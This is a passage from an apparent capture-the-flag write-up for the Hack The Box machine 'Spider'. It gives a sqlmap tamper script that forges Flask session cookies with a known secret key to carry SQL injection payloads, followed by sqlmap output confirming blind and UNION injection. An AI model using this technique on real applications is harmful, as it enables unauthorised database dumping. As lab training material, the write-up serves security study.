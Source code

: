 Sqlmap won't work out of the box against this type of SQLI, so we have to write a short tamper script ourselves to pass the payload to the `uuid` parameter and sign the cookie. For this to work we also have to create an empty `__init__.py` in the same directory as the tamper script wich doesn't have to contain anything but need's to exist prior to running sqlmap.

`tamper.py`
```py
#!/usr/bin/env/python
from flask_unsign import session as ses

def tamper(payload, **kwargs):
    session = ses.sign({'cart_items': [], 'uuid' : payload}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')
    return session
```

```
$ touch __init__.py
```

With all preparations met we can now run sqlmap and dump the database of the application.

```
$ sqlmap http://spider.htb/ --tamper tamper.py --delay 1 --cookie="session=*" --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 12:01:16 /2021-05-30/

[12:01:16] [INFO] loading tamper module 'tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] y
[12:01:19] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:01:19] [WARNING] provided value for parameter 'session' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:01:19] [INFO] testing connection to the target URL
[12:01:20] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[12:01:23] [INFO] target URL content is stable
[12:01:23] [INFO] testing if (custom) HEADER parameter 'Cookie #1*' is dynamic
do you want to URL encode cookie values (implementation specific)? [Y/n] n

...[snip]...

[12:02:37] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[12:02:44] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:02:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:03:10] [INFO] target URL appears to be UNION injectable with 1 columns
```